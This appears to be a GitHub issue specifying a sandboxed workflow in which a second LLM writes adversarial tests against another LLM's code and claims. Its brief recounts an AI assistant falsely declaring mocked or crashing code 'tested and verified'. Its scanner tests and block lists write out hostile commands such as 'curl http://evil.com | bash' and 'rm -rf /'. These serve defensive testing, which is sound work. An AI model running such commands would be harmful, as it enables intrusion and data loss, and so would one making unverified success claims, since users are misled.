

# Adversarial Testing Workflow: Separation of Implementation from Verification

## User Story
As a developer using LLM-assisted coding,
I want implementation and verification to be performed by separate, adversarial LLMs,
So that bugs, import errors, and false claims are caught before code ships to production.

## Objective
Establish a workflow where the LLM that writes code cannot declare it "tested"—a separate Testing LLM writes adversarial tests designed to break the Implementation LLM's claims, with an orchestrator running all verification independently in a secure, sandboxed environment.

## UX Flow

### Scenario 1: Happy Path - All Tests Pass
1. User requests feature implementation
2. Implementation LLM (Claude) writes code + verification script + claims
3. **User confirms execution** of verification script (or uses `--dry-run` to preview)
4. Orchestrator runs verification script in **mandatory containerized environment** with timeout
5. Verification passes → Testing LLM (Gemini) receives code + claims
6. Testing LLM writes adversarial tests designed to break claims
7. Orchestrator runs adversarial tests with resource constraints
8. All tests pass → Code accepted for human review

### Scenario 2: Verification Script Fails
1. Implementation LLM provides code + verification script
2. User confirms execution (or script is validated in dry-run mode first)
3. Orchestrator runs verification script with 5-minute timeout in container
4. Verification fails (e.g., ImportError on `from module import nonexistent`)
5. Orchestrator parses `stderr`; if `ImportError` or `ModuleNotFoundError` detected, workflow halts with status `FAILED_IMPORT`
6. Orchestrator rejects immediately, sends failure back to Implementation LLM
7. Implementation LLM fixes and resubmits

### Scenario 3: Adversarial Tests Find Bugs
1. Implementation LLM claims "VS Code launches and waits for user input"
2. Verification script passes (unit tests mocked subprocess)
3. Testing LLM writes adversarial test: "What if path has spaces?"
4. Adversarial test fails: `FileNotFoundError` on Windows with spaces in path
5. Orchestrator reports failure to Implementation LLM with specific test output
6. Implementation LLM fixes edge case, resubmits

### Scenario 4: False Claim Exposed
1. Implementation LLM claims "Integration tested with real subprocess calls"
2. Testing LLM inspects tests, finds all subprocess calls are mocked
3. Testing LLM writes unmocked integration test
4. Test crashes with `EOFError` (stdin not connected)
5. Orchestrator exposes false claim, requires real integration test

### Scenario 5: Script Execution Timeout
1. Implementation LLM provides verification script
2. User confirms execution
3. Verification script hangs or enters infinite loop
4. Orchestrator enforces 5-minute timeout, terminates script
5. Orchestrator reports timeout failure to Implementation LLM
6. Implementation LLM fixes script and resubmits

### Scenario 6: Dry-Run Mode
1. User requests feature implementation with `--dry-run` flag
2. Implementation LLM writes code + verification script + claims
3. Orchestrator displays verification script content for human review
4. Orchestrator shows what commands WOULD be executed (no actual execution)
5. User reviews and either approves execution or requests modifications

### Scenario 7: Dangerous Script Detected
1. Implementation LLM provides verification script
2. Orchestrator performs pre-execution shell script inspection
3. Dangerous patterns detected (e.g., `curl` to external IP, `rm -rf /`, `wget`)
4. Orchestrator blocks execution and displays warning with specific dangerous commands found
5. User must explicitly override with `--allow-dangerous` flag or modify script

### Scenario 8: Self-Destruct Test (Security Validation)
1. Test harness feeds orchestrator a script attempting to delete files
2. Container sandbox blocks file deletion outside designated workspace
3. AST scanner (if running on host) rejects dangerous imports
4. Orchestrator logs blocked attempt and reports `BLOCKED_DANGEROUS_OPERATION`

## Requirements

### Verification Script Requirements
1. Implementation LLM must provide runnable `verify-{feature}.sh` script
2. Script must test imports without try/except wrappers
3. Script must include smoke test (e.g., `--help` runs without error)
4. Script must run both unit and integration tests
5. Script must be runnable by orchestrator with no Claude-specific context
6. Script must specify expected failure points with comments

### Adversarial Test Requirements
1. Testing LLM must receive implementation code AND claims list
2. Adversarial tests must NOT use mocks for external dependencies
3. Adversarial tests must explicitly target each claim
4. Adversarial tests must include edge cases: unicode, spaces in paths, missing commands
5. Adversarial tests must include negative tests (expected failures)
6. Test file must document claims being tested and testing strategy

### Orchestrator Requirements
1. **MANDATORY: Run all verification scripts in Docker container** (no host execution without container)
2. **Require user confirmation before executing any generated script** (unless `--auto-confirm` flag with explicit user opt-in)
3. **Provide `--dry-run` mode** that shows script content without execution
4. **Enforce timeout limits:** 5 minutes for verification scripts, 10 minutes for adversarial test suites
5. **Enforce resource constraints:** Memory limit (2GB default), CPU limit (2 cores default)
6. **Pre-execution shell script inspection:** Scan for dangerous commands (`curl`, `wget` to external IPs, `rm -rf`, network access patterns) and block with warning
7. Invoke Testing LLM with implementation files + claims
8. Run adversarial tests and capture detailed output
9. Report pass/fail with specific failure messages
10. Route failures back to Implementation LLM with context
11. Terminate and report any script that exceeds timeout or resource limits
12. **Environment isolation:** Execute with sanitized environment variables (clear `PYTHONPATH`, internal API keys) to prevent dependency on developer's local environment

### Script Safety Requirements (Security-Critical)
1. **Mandatory containerization:** All LLM-generated scripts MUST execute in Docker/Podman container
2. **Shell script inspection:** Before displaying confirmation prompt, orchestrator MUST scan shell scripts for:
   - Network access commands (`curl`, `wget`, `nc`) to external IPs
   - Destructive commands (`rm -rf`, `shutil.rmtree` on system paths)
   - Privilege escalation attempts (`sudo`, `su`)
   - Environment exfiltration (`env`, `printenv` piped to network)
3. **AST-based Python validation:** For Python scripts, perform static analysis to reject dangerous imports/calls (`os.system`, `subprocess.call` with shell=True on untrusted input, `shutil.rmtree` on non-workspace paths)
4. **Workspace isolation:** Container mounts only the project workspace as writable; system paths are read-only or unmounted

### Test Category Coverage
1. **Import tests:** Verify all imports succeed without wrapping
2. **Smoke tests:** CLI commands execute with `--help`
3. **Integration tests:** Real subprocess calls, no mocks
4. **Edge case tests:** Unicode, spaces, missing dependencies, timeouts
5. **Failure mode tests:** Useful error messages, graceful degradation

## Technical Approach

- **Verification Script:** Bash script generated by Implementation LLM, validates its own claims before adversarial testing
- **Adversarial Test Generation:** Testing LLM (Gemini Flash for standard tickets, Gemini Pro for complex/security-critical tickets) reads code + claims, generates `test_adversarial_{feature}.py` with unmocked tests
- **Orchestrator:** Python script (`tools/adversarial_test_workflow.py`) that sequences verification → adversarial testing → reporting
- **Execution Safety:** 
  - **Mandatory containerization:** All generated scripts execute in Docker container with resource limits
  - **Shell script inspection:** Pre-execution scan for dangerous patterns before confirmation prompt
  - **AST validation:** Python scripts analyzed for dangerous imports/calls
  - **Confirmation prompt:** User must confirm before any generated script executes
  - **Dry-run mode:** `--dry-run` flag shows script content without execution
  - **Timeouts:** `subprocess.run()` with `timeout=300` (5 min) for verification, `timeout=600` (10 min) for adversarial tests
  - **Resource limits:** Docker `--memory=2g --cpus=2` enforcement
  - **Environment sanitization:** Clear `PYTHONPATH`, internal API keys before execution
- **Mocked LLM Fixtures:** `tests/fixtures/adversarial/` directory containing sample LLM responses for offline development and testing
- **Integration Point:** New N2.5 gate in governance workflow between Claude draft and human review

## Security Considerations

### Execution Security (Security-Critical)
- **Mandatory container execution:** No LLM-generated script runs on host machine; all execution occurs in isolated Docker container
- **Pre-execution inspection:** Shell scripts scanned for dangerous patterns BEFORE user sees confirmation prompt
- **AST-based validation:** Python files analyzed to reject dangerous imports (`os`, `subprocess` with shell=True, `shutil` on system paths)
- **Network isolation:** Containers run with `--network=none` by default; network access requires explicit `--allow-network` flag
- **Filesystem isolation:** Only project workspace mounted writable; `/`, `/home`, `/etc` are read-only or unmounted

### Permission Model
- **User confirmation required:** No automatic execution of LLM-generated scripts without explicit user approval
- **Dry-run default for new users:** First-time users see `--dry-run` output by default
- **Escalating permissions:** `--auto-confirm` requires `--containerized` (can't auto-confirm host execution)
- Adversarial tests run in same sandboxed environment as verification scripts
- Testing LLM has read-only access to implementation code
- Orchestrator script coordinates execution but never runs arbitrary code on host

### Data Handling
- Implementation code sent to Testing LLM for analysis
- **Data residency requirement:** Must use Gemini Enterprise endpoint with Zero Data Retention (ZDR) policy enabled
- No proprietary code stored by external LLM services
- All LLM interactions logged locally for audit purposes

## Cost Analysis

### Estimated Cost Impact
- **Per-ticket cost increase:** ~2x inference cost (Implementation LLM + Testing LLM)
- **Testing LLM model selection:**
  - Gemini Flash: ~$0.01-0.05 per adversarial test generation (recommended for standard tickets)
  - Gemini Pro: ~$0.10-0.50 per adversarial test generation (for complex tickets)

### Cost Control Strategy
1. **Tiered testing:** Use Gemini Flash by default, Gemini Pro only for tickets labeled `complexity:high` or `security-relevant`
2. **Scope limiting:** Adversarial testing required only for tickets with `needs-adversarial` label or in `tools/`, `core/` directories
3. **Caching:** Cache adversarial test results for unchanged implementation files
4. **Budget cap:** Optional `--max-cost` flag to skip adversarial testing if estimated cost exceeds threshold
5. **Metrics tracking:** Log per-ticket adversarial testing costs to `docs/reports/adversarial-costs.csv`

### Break-even Analysis
Cost is justified when adversarial testing catches bugs that would otherwise require:
- Production hotfix (~4 hours developer time)
- User-reported bug triage (~1 hour)
- Reputation damage (unquantifiable)

## Legal Considerations

### Data Residency Compliance
- **REQUIREMENT:** Gemini integration MUST use Enterprise endpoint with Zero Data Retention (ZDR) policy
- **Verification:** Before deployment, confirm API endpoint configuration in `config/gemini.yaml` specifies `enterprise: true` and `data_retention: none`
- **Audit trail:** Log all external API calls with timestamp and data classification level
- Proprietary code analysis covered under existing Gemini Enterprise agreement (reference: `docs/legal/gemini-dpa.md`)

## Files to Create/Modify

### New Files
- `tools/adversarial_test_workflow.py` — Orchestrator script coordinating verification and adversarial testing
- `tools/script_safety_scanner.py` — Shell script and Python AST security scanner
- `tools/templates/verify-template.sh` — Template for verification scripts
- `tools/templates/test_adversarial_template.py` — Template for adversarial tests
- `tools/docker/adversarial-sandbox.Dockerfile` — Container definition for sandboxed execution
- `tests/fixtures/adversarial/mock_gemini_responses.json` — Mocked LLM responses for offline development
- `tests/fixtures/adversarial/sample_claims.json` — Sample claims for testing
- `tests/fixtures/adversarial/dangerous_scripts/` — Test fixtures for security scanner validation
- `docs/adr/0015-adversarial-testing-workflow.md` — Architecture decision record
- `docs/reports/adversarial-costs.csv` — Cost tracking for adversarial testing runs

### Modified Files
- `tools/run_issue_workflow.py` — Add N2.5 adversarial testing gate
- `docs/wiki/governance-workflow.md` — Document new gate
- `CLAUDE.md` — Add adversarial testing prompts for Implementation LLM
- `config/gemini.yaml` — Add `enterprise: true` and `data_retention: none` settings

## Dependencies
- Gemini integration must be available (existing) — **MUST be Enterprise endpoint with ZDR**
- Docker/Podman must be installed for containerized execution
- Issue governance workflow must be implemented (existing)

## Out of Scope (Future)
- Automated adversarial test generation for existing repos (backfill)
- Testing LLM performance metrics and scoring
- Adversarial test caching across versions
- Competitive testing with multiple Testing LLMs
- Self-improving tests based on historical failures
- Fuzzing integration
- GPU-based execution for ML model testing

## Acceptance Criteria
- [ ] Orchestrator runs verification scripts in mandatory Docker container
- [ ] Orchestrator requires user confirmation before executing generated scripts
- [ ] `--dry-run` mode shows script content without execution
- [ ] Shell script inspection blocks dangerous commands before confirmation prompt
- [ ] Verification scripts timeout after 5 minutes with clear error message
- [ ] Adversarial test suites timeout after 10 minutes with clear error message
- [ ] Testing LLM (Gemini Enterprise/ZDR) receives implementation code and generates adversarial tests
- [ ] Adversarial tests execute without mocks for subprocess/external calls
- [ ] Orchestrator parses `stderr`; if `ImportError` or `ModuleNotFoundError` detected, workflow halts with status `FAILED_IMPORT`
- [ ] Edge cases are tested (unicode, paths with spaces, missing commands)
- [ ] False claims are exposed (mocked "integration tests" flagged)
- [ ] N2.5 gate integrated into issue governance workflow
- [ ] Clear failure reporting shows exact test output and claim violated
- [ ] Cost per adversarial test run is logged to tracking CSV
- [ ] Environment variables sanitized (PYTHONPATH, API keys cleared) before script execution

## Definition of Done

### Implementation
- [ ] `adversarial_test_workflow.py` orchestrator implemented
- [ ] `script_safety_scanner.py` security scanner implemented
- [ ] Mandatory Docker containerization implemented (no host execution path)
- [ ] Shell script inspection for dangerous patterns implemented
- [ ] AST-based Python validation implemented
- [ ] User confirmation prompt implemented for script execution
- [ ] `--dry-run` mode implemented
- [ ] Timeout handling (5 min verification, 10 min adversarial) implemented
- [ ] Resource constraint enforcement via Docker limits implemented
- [ ] Environment sanitization implemented
- [ ] Verification script template created
- [ ] Adversarial test template created
- [ ] N2.5 gate added to governance workflow
- [ ] Unit tests for orchestrator written and passing
- [ ] Mocked LLM response fixtures created for offline testing
- [ ] Self-destruct test added to security test suite

### Tools
- [ ] CLI interface: `python tools/adversarial_test_workflow.py --implementation X --claims Y`
- [ ] `--dry-run` flag for preview without execution
- [ ] `--auto-confirm` flag for CI/automated pipelines (requires `--containerized`, explicit opt-in)
- [ ] `--containerized` flag (default: true, required for execution)
- [ ] `--timeout` flag for custom timeout values
- [ ] `--max-cost` flag for budget control
- [ ] `--allow-network` flag to enable network in container (disabled by default)
- [ ] `--allow-dangerous` flag to override blocked dangerous scripts (requires confirmation)
- [ ] Integration with existing `run_issue_workflow.py`
- [ ] Document tool usage in tool docstrings

### Documentation
- [ ] ADR documenting adversarial testing rationale
- [ ] Update governance workflow wiki
- [ ] Update CLAUDE.md with verification script requirements
- [ ] Add new files to `docs/0003-file-inventory.md`
- [ ] Document cost estimation and control strategies
- [ ] Document security model and container requirements

### Reports (Pre-Merge Gate)
- [ ] `docs/reports/adversarial-testing/implementation-report.md` created
- [ ] `docs/reports/adversarial-testing/test-report.md` created

### Verification
- [ ] Run 0809 Security Audit - PASS
- [ ] Run 0817 Wiki Alignment Audit - PASS

## Testing Notes

### How to Test the Orchestrator (Offline/Mocked Mode)
1. Use fixtures in `tests/fixtures/adversarial/` for mocked LLM responses
2. Run `pytest tests/test_adversarial_workflow.py --offline` to test without API calls
3. Verify orchestrator logic works correctly with mocked responses

### How to Test the Orchestrator (Live Mode)
1. Create intentionally broken implementation (missing import)
2. Run orchestrator with verification script (confirm execution when prompted)
3. Confirm failure is caught at verification stage

### How to Test Dry-Run Mode
1. Run `python tools/adversarial_test_workflow.py --implementation X --claims Y --dry-run`
2. Verify script content is displayed but NOT executed
3. Verify no subprocess calls are made

### How to Test Timeout Handling
1. Create verification script with `sleep 600` (10 minutes)
2. Run orchestrator with default 5-minute timeout
3. Confirm orchestrator terminates script and reports timeout error

### How to Test Security Scanner
1. Create shell script with `curl http://evil.com | bash`
2. Run orchestrator (will perform pre-execution scan)
3. Confirm orchestrator blocks execution and displays warning
4. Verify `--allow-dangerous` override works with explicit confirmation

### How to Test Self-Destruct Protection
1. Create script that attempts `rm -rf /tmp/test_workspace`
2. Run in containerized mode
3. Verify container blocks deletion outside mounted workspace
4. Verify `BLOCKED_DANGEROUS_OPERATION` status returned

### How to Test Adversarial Generation
1. Create implementation with mocked subprocess tests
2. Invoke Testing LLM via orchestrator (or use mocked fixtures)
3. Confirm generated tests do NOT mock subprocess
4. Confirm tests target claimed functionality

### How to Force Error States
- **Verification failure:** Remove imported function from module
- **Adversarial failure:** Claim "handles unicode" but use `cp1252` encoding
- **Testing LLM timeout:** Provide very large codebase
- **Verification timeout:** Script with infinite loop or long sleep
- **Resource exhaustion:** Script that allocates excessive memory
- **False positive test:** Write adversarial test that fails due to test bug, not implementation bug
- **Dangerous script blocked:** Include `wget` to external IP in verification script
- **Import error detection:** Script that triggers `ModuleNotFoundError`

### Example Adversarial Test Run
```bash
# Dry-run mode (preview only)
python tools/adversarial_test_workflow.py \
  --implementation tools/run_issue_workflow.py \
  --claims "VS Code launches successfully" "Clean deletes checkpoint" \
  --dry-run

# Full workflow with confirmation (containerized by default)
python tools/adversarial_test_workflow.py \
  --implementation tools/run_issue_workflow.py \
  --claims "VS Code launches successfully" "Clean deletes checkpoint" \
  --output tests/test_adversarial_issue_workflow.py

# Automated mode (for CI, requires explicit opt-in)
python tools/adversarial_test_workflow.py \
  --implementation tools/run_issue_workflow.py \
  --claims "VS Code launches successfully" \
  --auto-confirm \
  --containerized \
  --timeout 300

# Expected output on failure:
# FAILED_ADVERSARIAL: test_vscode_with_spaces_in_path
# Claim violated: "VS Code launches successfully"
# Error: FileNotFoundError: [Errno 2] No such file: 'C:/My'

# Expected output on dangerous script detection:
# BLOCKED_DANGEROUS_SCRIPT: verify-feature.sh
# Dangerous patterns detected:
#   Line 15: curl http://external-ip/script | bash
#   Line 23: rm -rf /
# Use --allow-dangerous to override (not recommended)
```

## Labels
`governance`, `safety`, `security-critical`, `testing`, `automation`

## Original Brief
# Adversarial Testing Workflow

**Date:** 2026-01-27
**Context:** Claude repeatedly claims code works without verifying. Unit tests pass because they mock everything. Integration tests didn't exist. Import errors ship to production. Need separation of implementation from verification.

---

## Problem Statement

**Current broken workflow:**
1. Claude implements feature
2. Claude writes tests for feature (conflict of interest)
3. Claude runs tests
4. Claude claims "tested and verified"
5. Code fails on first real use

**Examples of cheating:**
- Imported non-existent function → ImportError on first run
- VS Code never launched on Windows → Workflow never worked
- Claimed "integration test verified" when it crashed with EOFError
- All 49 unit tests mocked subprocess, hiding real failures

**Root cause:** Same entity implements AND verifies. No adversarial pressure.

---

## Proposed Solution: Adversarial Testing Workflow

**Principle:** Separate implementation from verification using inversion of control.

### Actors

1. **Implementation LLM (Claude/Sonnet):**
   - Writes code
   - Writes verification script (NOT tests)
   - Provides claims about what works
   - NO authority to declare "tested"

2. **Testing LLM (Gemini/separate Claude):**
   - Reads implementation code
   - Reads claims from implementation LLM
   - Writes aggressive tests to BREAK the claims
   - Tries to find edge cases, import errors, missing dependencies
   - Reports failures back to orchestrator

3. **Orchestrator (Human/Script):**
   - Runs verification script from Implementation LLM
   - Runs adversarial tests from Testing LLM
   - Makes final decision: accept or reject

### Workflow



---

## Verification Script Requirements

**Implementation LLM must provide:**

```bash
#!/bin/bash
# verify-{feature}.sh

# 1. Import test
python -c "from module import function"

# 2. Smoke test
python script.py --help

# 3. Unit tests
pytest tests/test_unit.py

# 4. Integration tests (if any)
pytest tests/test_integration.py

# 5. Actual usage attempt (can timeout/fail at expected point)
timeout 5 python script.py --real-input || true

echo "All verifications passed"
```

**Rules:**
- Must be runnable by orchestrator (no Claude-specific context)
- Must test actual command-line usage, not just imports
- Must include both unit and integration tests
- Must specify expected failure points (e.g., "will timeout at human gate")

---

## Adversarial Test Requirements

**Testing LLM must generate:**

```python
# test_adversarial_{feature}.py
"""
Adversarial tests written by separate LLM to break Implementation LLM's claims.

Claims being tested:
- "VS Code launches and waits for user"
- "Clean option deletes checkpoint and audit dir"
- "UTF-8 encoding works with unicode"

Testing strategy:
- Don't mock anything
- Try to make it fail
- Test edge cases Implementation LLM didn't think of
"""

class TestAdversarialVSCode:
    def test_vscode_actually_launches_not_mocked(self):
        """Real subprocess call - no mocks."""
        # Try to break it

    def test_vscode_with_spaces_in_path(self):
        """What if file path has spaces?"""

    def test_vscode_when_not_in_path(self):
        """What if 'code' command doesn't exist?"""

    def test_vscode_returns_nonzero(self):
        """What if VS Code crashes?"""
```

**Testing philosophy:**
- **Adversarial mindset:** Try to break the claims
- **No mocks:** Test real behavior, not mocked behavior
- **Edge cases:** Paths with spaces, unicode, missing commands, network failures
- **Negative tests:** What happens when it should fail?
- **Import tests:** Does it even load?
- **Smoke tests:** Does the command run at all?

---

## Test Categories

### 1. Import Tests
```python
def test_imports_without_error():
    """Can we import without crashing?"""
    import module  # No try/except - let it crash
```

### 2. Smoke Tests
```python
def test_command_runs():
    """Does the CLI command execute?"""
    subprocess.run(["python", "script.py", "--help"], check=True)
```

### 3. Integration Tests (No Mocks)
```python
def test_real_subprocess_call():
    """Actually call the external command."""
    result = subprocess.run(["code", "--version"], capture_output=True)
    assert result.returncode == 0
```

### 4. Edge Case Tests
```python
def test_unicode_in_input():
    """Unicode that breaks cp1252 encoding."""

def test_path_with_spaces():
    """File paths with spaces."""

def test_missing_dependencies():
    """What if external command doesn't exist?"""
```

### 5. Failure Mode Tests
```python
def test_error_message_is_useful():
    """When it fails, does error message help user?"""

def test_timeout_handling():
    """What if command hangs?"""
```

---

## Integration with Governance Workflow

### Current Flow
1. N0: Load brief
2. N1: Sandbox checks
3. N2: Claude drafts (Implementation LLM)
4. N3: Human reviews draft
5. N4: Gemini reviews (could be Testing LLM)
6. N5: Human reviews verdict
7. N6: File issue

### Proposed Addition: N2.5 - Adversarial Testing

```
N2: Claude writes code + verification script
  ↓
N2.5: Orchestrator runs verification script
  ↓ (if pass)
N2.6: Testing LLM writes adversarial tests
  ↓
N2.7: Orchestrator runs adversarial tests
  ↓ (if pass)
N3: Human reviews
```

---

## Technical Implementation

### File Structure
```
tools/
  run_issue_workflow.py          # Implementation code
  verify_issue_workflow.sh        # Verification script (from Claude)
tests/
  test_issue_workflow.py          # Unit tests (from Claude)
  test_integration_workflow.py    # Integration tests (from Claude)
  test_adversarial_workflow.py    # Adversarial tests (from Gemini)
  fixtures/
    adversarial/
      mock_gemini_responses.json  # Mocked responses for offline testing
      sample_claims.json          # Sample claims for testing
```

### Orchestrator Script
```python
# tools/adversarial_test_workflow.py

def run_adversarial_testing(implementation_files: list[str], claims: list[str], dry_run: bool = False):
    """
    1. Show verification script for review (dry-run) or get user confirmation
    2. Run verification script from Implementation LLM with timeout
    3. If pass: invoke Testing LLM to write adversarial tests
    4. Run adversarial tests with timeout
    5. Report results
    """
    
    # Step 0: Dry-run mode - show what would be executed
    if dry_run:
        print("=== DRY RUN MODE ===")
        print("Verification script contents:")
        print(open("verify_script.sh").read())
        print("No execution performed.")
        return {"status": "DRY_RUN"}
    
    # Step 0.5: Security scan before showing confirmation
    dangerous_patterns = scan_script_for_dangers("verify_script.sh")
    if dangerous_patterns:
        print("BLOCKED_DANGEROUS_SCRIPT: Dangerous patterns detected:")
        for pattern in dangerous_patterns:
            print(f"  {pattern}")
        return {"status": "BLOCKED_DANGEROUS_SCRIPT", "patterns": dangerous_patterns}
    
    # Step 0.6: Get user confirmation
    if not get_user_confirmation("Execute verification script?"):
        return {"status": "CANCELLED"}

    # Step 1: Verify implementation's claims with timeout IN CONTAINER
    try:
        result = subprocess.run(
            ["docker", "run", "--rm", "--network=none", 
             "--memory=2g", "--cpus=2",
             "-v", f"{workspace}:/workspace:rw",
             "adversarial-sandbox", "bash", "verify_script.sh"],
            timeout=300,  # 5 minute timeout
            capture_output=True
        )
    except subprocess.TimeoutExpired:
        return {"status": "FAILED_TIMEOUT", "message": "Verification script exceeded 5 minute timeout"}
    
    if result.returncode != 0:
        stderr = result.stderr.decode()
        if "ImportError" in stderr or "ModuleNotFoundError" in stderr:
            return {"status": "FAILED_IMPORT", "stderr": stderr}
        return {"status": "FAILED_VERIFICATION", "stderr": stderr}

    # Step 2: Generate adversarial tests
    adversarial_tests = invoke_testing_llm(implementation_files, claims)

    # Step 3: Run adversarial tests with timeout IN CONTAINER
    try:
        pytest_result = subprocess.run(
            ["docker", "run", "--rm", "--network=none",
             "--memory=2g", "--cpus=2",
             "-v", f"{workspace}:/workspace:rw",
             "adversarial-sandbox", "pytest", "test_adversarial.py"],
            timeout=600  # 10 minute timeout
        )
    except subprocess.TimeoutExpired:
        return {"status": "FAILED_TIMEOUT", "message": "Adversarial tests exceeded 10 minute timeout"}

    return {
        "status": "PASS" if pytest_result.returncode == 0 else "FAILED_ADVERSARIAL",
        "failures": parse_failures(pytest_result)
    }
```

---

## Success Criteria

**This workflow succeeds when:**

1. **Import error caught:** Adversarial test tries to import and fails immediately
2. **Real usage tested:** No subprocess mocks, actual commands run
3. **Edge cases found:** Testing LLM finds cases Implementation LLM missed
4. **False claims exposed:** When Implementation LLM says "tested", adversarial tests verify
5. **Clear failures:** When tests fail, orchestrator sees exactly what broke
6. **Safe execution:** User confirms before any generated script runs
7. **Timeout protection:** Runaway scripts are terminated with clear error messages
8. **Sandbox protection:** Dangerous scripts blocked before execution

**Example success:**
- Implementation LLM: "VS Code launches successfully"
- Verification script: Passes (tests exist, imports work)
- Adversarial test: "But does it work on Windows with .CMD files?"
- Test fails: `FileNotFoundError`
- Orchestrator rejects: Send back to Implementation LLM

---

## Open Questions

1. **Which LLM for Testing?**
   - Gemini Flash (default for standard tickets)
   - Gemini Pro (for complex/security-critical tickets)
   - Selection criteria documented in Cost Analysis section

2. **How adversarial should tests be?**
   - Try to break it (fuzzing, edge cases)
   - Just verify claims (smoke tests)
   - Both (tiered approach)

3. **When to run adversarial tests?**
   - Every commit (expensive)
   - Before PR (manual trigger)
   - On demand (user requests)

4. **How to score Testing LLM?**
   - Reward for finding bugs Implementation LLM missed
   - Penalize for false positives (tests that fail incorrectly)

5. **Can Testing LLM fix bugs?**
   - No (pure adversarial role)
   - Yes (suggest fixes)
   - Report only (orchestrator decides)